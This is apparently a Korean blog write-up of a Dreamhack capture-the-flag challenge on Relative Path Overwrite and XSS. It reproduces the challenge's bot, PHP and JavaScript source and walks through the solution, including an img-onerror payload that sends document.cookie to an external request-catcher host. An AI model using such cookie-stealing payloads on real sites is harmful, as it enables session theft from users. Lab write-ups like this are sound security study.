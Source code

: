 ```yaml
---
title: "[2025-08-17] RPO"
excerpt: "RPO"

categories:
  - Problem
tags:
  - [XSS, RPO]

permalink: /Problem/[2025-08-17] RPO/

toc: true
toc_sticky: true

date: 2025-08-17
last_modified_at: 2025-08-17
---
```


## 🦥 본문

- bot.py
    
    ```jsx
    from selenium import webdriver
    from selenium.webdriver.chrome.service import Service
    import sys
    import base64
    
    if len(sys.argv) < 2:
        exit(-1)
    
    if len(sys.argv[1]) == 0:
        exit(-1)
    
    path = base64.b64decode(sys.argv[1]).decode('latin-1')
    
    try:
        FLAG = open('/flag.txt', 'r').read()
    except:
        FLAG = '[**FLAG**]'
    
    def read_url(url, cookie={'name': 'name', 'value': 'value'}):
        cookie.update({'domain':'127.0.0.1'})
        try:
            service = Service(executable_path="/chromedriver")
            options = webdriver.ChromeOptions()
            for _ in ['headless', 'window-size=1920x1080', 'disable-gpu', 'no-sandbox', 'disable-dev-shm-usage']:
                options.add_argument(_)
            driver = webdriver.Chrome(service=service, options=options)
            driver.implicitly_wait(3)
            driver.set_page_load_timeout(3)
            driver.get('http://127.0.0.1/')
            driver.add_cookie(cookie)
            driver.get(url)
    
        except Exception as e:
            driver.quit()
            return False
        driver.quit()
        return True
    
    def check_xss(path, cookie={'name': 'name', 'value': 'value'}):
        url = f'http://127.0.0.1/{path}'
        return read_url(url, cookie)
    
    if not check_xss(path, {'name': 'flag', 'value': FLAG.strip()}):
        print('<script>alert("wrong??");history.go(-1);</script>')
    else:
        print('<script>alert("good");history.go(-1);</script>')
    
    ```
    
    - `check_xss()` 에서 쿠키에 flag를 집어 넣고 `read_url()`을 통해 웹드라이버로 실행
- index.php
    
    ```php
    <html>
    <head>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
    <title>Relative-Path-Overwrite</title>
    </head>
    <body>
        <!-- Fixed navbar -->
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <a class="navbar-brand" href="/">Relative-Path-Overwrite</a>
            </div>
            <div id="navbar">
              <ul class="nav navbar-nav">
                <li><a href="/">Home</a></li>
                <li><a href="/?page=vuln&param=dreamhack">Vuln page</a></li>
                <li><a href="/?page=report">Report</a></li>
              </ul>
    
            </div><!--/.nav-collapse -->
          </div>
        </nav><br/><br/><br/>
        <div class="container">
          <?php
              $page = $_GET['page'] ? $_GET['page'].'.php' : 'main.php';
              if (!strpos($page, "..") && !strpos($page, ":") && !strpos($page, "/"))
                  include $page;
          ?>
        </div> 
    </body>
    </html>
    
    ```
    
    - page 파라미터를 통해 `.php` 파일 실행. 이 때 `..`이나 `:`이나 `/`는 필터링
- report.php
    
    ```php
    <?php
    if(isset($_POST['path'])){
        exec(escapeshellcmd("python3 /bot.py " . escapeshellarg(base64_encode($_POST['path']))) . " 2>/dev/null &", $output);
        echo($output[0]);
    }
    ?>
    
    <form method="POST" class="form-inline">
        <div class="form-group">
            <label class="sr-only" for="path">/</label>
            <div class="input-group">
                <div class="input-group-addon">http://127.0.0.1/</div>
                <input type="text" class="form-control" id="path" name="path" placeholder="/">
            </div>
        </div>
        <button type="submit" class="btn btn-primary">Report</button>
    </form>
    
    ```
    
    - 아래와 같은 코드 실행
        
        ```php
        python3 /bot.py <Base64로 인코딩된 path> 2>/dev/null &
        ```
        
        - 이 때 escape를 사용하여 CLI Injection 피함
        - `2>/dev/null` : 에러 출력은 전부 무시
        - `&` : 백그라운드 실행
- vuln.php
    
    ```jsx
    <script src="filter.js"></script>
    <pre id=param></pre>
    <script>
        var param_elem = document.getElementById("param");
        var url = new URL(window.location.href);
        var param = url.searchParams.get("param");
        if (typeof filter !== 'undefined') {
            for (var i = 0; i < filter.length; i++) {
                if (param.toLowerCase().includes(filter[i])) {
                    param = "nope !!";
                    break;
                }
            }
        }
    
        param_elem.innerHTML = param;
    </script>
    ```
    
    - 현재 URL의 param 값을 가져와서 필터링 후 `<pre>` 태그에 집어 넣음
    - filter.js가 상대 주소로 되어 있어서 필터링을 수행 안 시킬 수 있음

flag를 얻으려면 웹드라이버에 들어가서 쿠키에 있는 값을 알아내야 함. 

즉 첫번째로는 `/report` API에 요청을 보내야 함

`index.php`에서 페이지를 실행시켜야 상대 경로인 `fileter.js`의 필터링을 피할 수 있음

그리고 쿠키를 얻으려면 외부에서 접근이 가능해야 함 

### 풀이 과정

1. report 페이지 내에서 아래와 같은 코드 삽입 후 보냄
    
    ```php
    index.php/?page=vuln&param=<img src=@ onerror=location.href="https://ejjwaqq.request.dreamhack.games/"%2bdocument.cookie>
    ```
    
    - 웹 드라이버에서 `index.php`를 들어감. 해당 페이지에서 `vuln.php`를 실행
    - `vuln.php`에서 `<img onerror>`를 통해드림핵 툴즈로 쿠키를 보냄
    - 인코딩 → 디코딩 → 디코딩 순으로 진행되므로 `+` 는 미리 인코딩을 시켜놔야 함
    - 그리고 이때 filter.js는 `index.php/filter.js` 같이 잘못된 경로로 요청
2. 드림핵 툴즈에서 해당하는 flag를 얻을 수 있음
